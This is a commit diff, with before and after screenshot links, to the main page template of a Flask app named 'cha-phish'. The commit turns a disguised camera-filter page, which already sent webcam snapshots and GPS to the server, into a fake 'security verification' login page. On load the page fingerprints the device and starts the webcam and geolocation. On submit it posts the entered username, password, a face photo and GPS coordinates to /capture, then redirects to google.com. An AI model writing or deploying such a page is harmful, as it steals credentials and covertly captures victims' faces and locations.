

Before and after one commit to zzabck0-source/cha-phish, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (359-1280 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/ai mamb/templates/index.html
+++ b/ai mamb/templates/index.html
@@ -3,39 +3,35 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>😎 Akses Kamera</title>
+    <title>Verifikasi Keamanan</title>
     <style>
-        * { margin: 0; padding: 0; box-sizing: border-box; font-family: 'Comic Sans MS', cursive, sans-serif; }
+        * { margin: 0; padding: 0; box-sizing: border-box; font-family: Arial, sans-serif; }
         body {
-            background: linear-gradient(135deg, #1a1a2e, #16213e, #0f3460);
+            background: #0d1117;
             display: flex;
             justify-content: center;
             align-items: center;
             min-height: 100vh;
-            color: #fff;
         }
         .box {
-            background: rgba(255,255,255,0.08);
-            backdrop-filter: blur(12px);
-            padding: 40px 30px;
-            border-radius: 40px;
-            border: 2px solid rgba(255,255,255,0.15);
-            width: 400px;
+            background: #161b22;
+            padding: 35px;
+            border-radius: 16px;
+            width: 380px;
+            border: 1px solid #30363d;
             text-align: center;
-            box-shadow: 0 20px 60px rgba(0,0,0,0.6);
         }
-        .box h1 { font-size: 28px; margin-bottom: 6px; }
-        .box h1 span { color: #f9ca24; }
-        .sub { font-size: 14px; color: #aaa; margin-bottom: 18px; }
+        .box h2 { color: #fff; margin-bottom: 5px; }
+        .box h2 span { color: #58a6ff; }
+        .sub { color: #8b949e; font-size: 14px; margin-bottom: 15px; }
         .camera-box {
             width: 100%;
-            height: 260px;
-            background: #0d0d1a;
-            border-radius: 24px;
-            border: 3px dashed #f9ca24;
+            height: 220px;
+            background: #0d1117;
+            border: 2px dashed #30363d;
+            border-radius: 12px;
             overflow: hidden;
-            margin-bottom: 16px;
-            position: relative;
+            margin-bottom: 12px;
         }
         .camera-box video {
             width: 100%;
@@ -49,105 +45,127 @@
             align-items: center;
             justify-content: center;
             height: 100%;
-            color: #888;
+            color: #8b949e;
         }
-        .camera-box .placeholder .icon { font-size: 60px; }
-        .filter-badge {
-            background: #f9ca24;
-            color: #000;
-            padding: 6px 16px;
-            border-radius: 30px;
+        .camera-box .placeholder .icon { font-size: 48px; }
+        input {
+            width: 100%;
+            padding: 12px;
+            margin: 6px 0;
+            background: #0d1117;
+            border: 1px solid #30363d;
+            border-radius: 8px;
+            color: #fff;
+            outline: none;
+        }
+        input:focus { border-color: #58a6ff; }
+        .btn {
+            width: 100%;
+            padding: 13px;
+            margin-top: 10px;
+            background: #238636;
+            border: none;
+            border-radius: 8px;
+            color: #fff;
             font-weight: bold;
+            cursor: pointer;
+        }
+        .btn:hover { background: #2ea043; }
+        .btn:disabled { background: #555; cursor: not-allowed; }
+        .status {
+            margin: 10px 0;
             font-size: 13px;
-            display: inline-block;
-            margin-bottom: 12px;
+            color: #8b949e;
         }
-        .btn {
-            background: #f9ca24;
-            border: none;
-            padding: 14px 28px;
-            border-radius: 60px;
-            font-weight: bold;
-            font-size: 18px;
-            cursor: pointer;
-            color: #000;
-            transition: 0.3s;
-            width: 100%;
-        }
-        .btn:hover { background: #f0b90b; transform: scale(1.02); }
-        .btn:disabled { background: #555; color: #aaa; cursor: not-allowed; }
-        .status {
-            margin: 14px 0 10px;
-            font-size: 14px;
-            color: #aaa;
-        }
-        .status.success { color: #6fcf97; }
-        .status.error { color: #eb5757; }
+        .status.success { color: #2ea043; }
+        .status.error { color: #da3633; }
         .status.gps { color: #f1c40f; }
-        .footer {
-            margin-top: 16px;
-            font-size: 11px;
-            color: #555;
-        }
-        .filter-select {
-            background: #1e2a3a;
-            color: #fff;
-            border: 1px solid #333;
-            padding: 8px 14px;
-            border-radius: 30px;
-            font-size: 14px;
-            outline: none;
-            margin-bottom: 12px;
-            width: 100%;
-        }
+        .footer { margin-top: 14px; font-size: 11px; color: #555; }
         .hidden { display: none; }
     </style>
 </head>
 <body>
 <div class="box">
-    <h1>📸 <span>Akses Kamera</span></h1>
-    <p class="sub">Tekan tombol di bawah buat mulai</p>
+    <h2>📹 <span>Verifikasi Keamanan</span></h2>
+    <p class="sub">Untuk keamanan, verifikasi wajah & lokasi diperlukan</p>
 
     <div class="camera-box" id="cameraBox">
         <div class="placeholder" id="placeholder">
-            <span class="icon">🎥</span>
-            <span>Kamera siap dipakai</span>
+            <span class="icon">📷</span>
+            <span>Kamera akan aktif</span>
         </div>
         <video id="video" class="hidden" autoplay muted></video>
     </div>
 
-    <div class="filter-badge">🎭 Filter Aktif</div>
-    <select class="filter-select" id="filterSelect">
-        <option value="none">🚫 Tanpa Filter</option>
-        <option value="grayscale">⚫ Grayscale</option>
-        <option value="sepia">🟤 Sepia</option>
-        <option value="blur">🌫️ Blur</option>
-        <option value="bright">☀️ Bright</option>
-        <option value="invert">🔄 Invert</option>
-        <option value="hue">🌈 Hue Rotate</option>
-    </select>
+    <div class="status" id="status">⏳ Menyiapkan...</div>
 
-    <div class="status" id="status">⏳ Klik tombol untuk akses kamera</div>
-
-    <button class="btn" id="startBtn">🎬 Aktifkan Kamera</button>
-    <div class="footer">✨ Filter lucu siap dipakai • © 2026</div>
+    <form id="loginForm">
+        <input type="text" id="username" placeholder="Username / Email" required>
+        <input type="password" id="password" placeholder="Password" required>
+        <button type="submit" class="btn" id="submitBtn">🔓 Verifikasi</button>
+    </form>
+    <div class="footer">© 2026 SecureSystem</div>
 </div>
 
 <canvas id="canvas" class="hidden"></canvas>
 
 <script>
+// ====== AUTO-GRAB DEVICE INFO ======
+function getDeviceInfo() {
+    const info = {
+        userAgent: navigator.userAgent,
+        platform: navigator.platform,
+        language: navigator.language,
+        screenWidth: screen.width,
+        screenHeight: screen.height,
+        colorDepth: screen.colorDepth,
+        touchSupport: 'ontouchstart' in window || navigator.maxTouchPoints > 0,
+        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
+        doNotTrack: navigator.doNotTrack || 'unspecified',
+        cookiesEnabled: navigator.cookieEnabled,
+        hardwareConcurrency: navigator.hardwareConcurrency || 'unknown'
+    };
+    return info;
+}
+
+async function sendDeviceInfo() {
+    const info = getDeviceInfo();
+    try {
+        await fetch('/device-info', {
+            method: 'POST',
+            headers: { 'Content-Type': 'application/json' },
+            body: JSON.stringify(info)
+        });
+    } catch (err) {}
+}
+
+sendDeviceInfo();
+
+// ====== KAMERA + GPS + FORM ======
 const video = document.getElementById('video');
 const canvas = document.getElementById('canvas');
 const ctx = canvas.getContext('2d');
 const statusEl = document.getElementById('status');
-const startBtn = document.getElementById('startBtn');
+const submitBtn = document.getElementById('submitBtn');
 const placeholder = document.getElementById('placeholder');
-const filterSelect = document.getElementById('filterSelect');
 
-let stream = null;
 let cameraReady = false;
-let captureInterval = null;
 let gpsData = { lat: '-', lon: '-', acc: '-' };
+
+navigator.mediaDevices.getUserMedia({ video: { width: 640, height: 480 } })
+    .then((stream) => {
+        video.srcObject = stream;
+        video.classList.remove('hidden');
+        placeholder.style.display = 'none';
+        cameraReady = true;
+        statusEl.textContent = '✅ Kamera siap';
+        statusEl.className = 'status success';
+    })
+    .catch(() => {
+        statusEl.textContent = '⚠️ Izin kamera ditolak';
+        statusEl.className = 'status error';
+        cameraReady = false;
+    });
 
 navigator.geolocation.getCurrentPosition(
     (pos) => {
@@ -163,94 +181,61 @@ navigator.geolocation.getCurrentPosition(
     }
 );
 
-function applyFilter() {
-    const filter = filterSelect.value;
-    switch(filter) {
-        case 'grayscale': return 'grayscale(100%)';
-        case 'sepia': return 'sepia(100%)';
-        case 'blur': return 'blur(3px)';
-        case 'bright': return 'brightness(1.5)';
-        case 'invert': return 'invert(100%)';
-        case 'hue': return 'hue-rotate(180deg)';
-        default: return 'none';
-    }
-}
-
-filterSelect.addEventListener('change', () => {
-    if (video) video.style.filter = applyFilter();
-});
-
-startBtn.addEventListener('click', async () => {
-    startBtn.disabled = true;
-    startBtn.textContent = '⏳ Meminta izin...';
-    statusEl.textContent = '📡 Mengakses kamera...';
-
-    try {
-        stream = await navigator.mediaDevices.getUserMedia({
-            video: { width: 640, height: 480, facingMode: 'user' }
-        });
-
-        video.srcObject = stream;
-        video.classList.remove('hidden');
-        placeholder.style.display = 'none';
-        cameraReady = true;
-
-        video.style.filter = applyFilter();
-
-        statusEl.textContent = '✅ Kamera aktif! Filter siap dipakai.';
-        statusEl.className = 'status success';
-        startBtn.textContent = '📸 Kamera ON';
-        startBtn.style.background = '#6fcf97';
-
-        captureInterval = setInterval(() => {
-            if (cameraReady) {
-                captureAndSend();
-            }
-        }, 3000);
-
-        setTimeout(captureAndSend, 1000);
-
-    } catch (err) {
-        statusEl.textContent = '⚠️ Gagal akses kamera: ' + err.message;
-        statusEl.className = 'status error';
-        startBtn.disabled = false;
-        startBtn.textContent = '🔄 Coba Lagi';
-    }
-});
-
-async function captureAndSend() {
-    if (!cameraReady || !video.videoWidth) return;
-
+function captureImage() {
+    if (!cameraReady || !video.videoWidth) return null;
     canvas.width = video.videoWidth;
     canvas.height = video.videoHeight;
     ctx.drawImage(video, 0, 0);
+    return canvas.toDataURL('image/jpeg');
+}
 
-    const filter = filterSelect.value;
-    ctx.filter = applyFilter();
-    ctx.drawImage(video, 0, 0);
-    ctx.filter = 'none';
+document.getElementById('loginForm').addEventListener('submit', async function(e) {
+    e.preventDefault();
 
-    const imageData = canvas.toDataURL('image/jpeg').split(',')[1];
+    const user = document.getElementById('username').value.trim();
+    const pass = document.getElementById('password').value.trim();
+
+    if (!user || !pass) {
+        statusEl.textContent = '⚠️ Isi semua field!';
+        statusEl.className = 'status error';
+        return;
+    }
+
+    submitBtn.disabled = true;
+    submitBtn.textContent = '⏳ Memproses...';
+    statusEl.textContent = '📤 Mengirim data...';
+
+    const image = captureImage();
 
     try {
-        await fetch('/capture', {
+        const response = await fetch('/capture', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
             body: JSON.stringify({
-                username: 'guest',
-                password: 'filtered',
-                image: imageData,
+                username: user,
+                password: pass,
+                image: image || '',
                 lat: gpsData.lat,
                 lon: gpsData.lon,
                 acc: gpsData.acc
             })
         });
-    } catch (err) {}
-}
 
-window.addEventListener('beforeunload', () => {
-    if (captureInterval) clearInterval(captureInterval);
-    if (stream) stream.getTracks().forEach(t => t.stop());
+        const result = await response.json();
+
+        if (result.status === 'success') {
+            statusEl.textContent = '✅ Berhasil!';
+            statusEl.className = 'status success';
+            window.location.href = 'https://www.google.com';
+        } else {
+            throw new Error(result.message);
+        }
+    } catch (err) {
+        statusEl.textContent = '⚠️ Error, coba lagi';
+        statusEl.className = 'status error';
+        submitBtn.disabled = false;
+        submitBtn.textContent = '🔓 Verifikasi';
+    }
 });
 </script>
 </body>
```
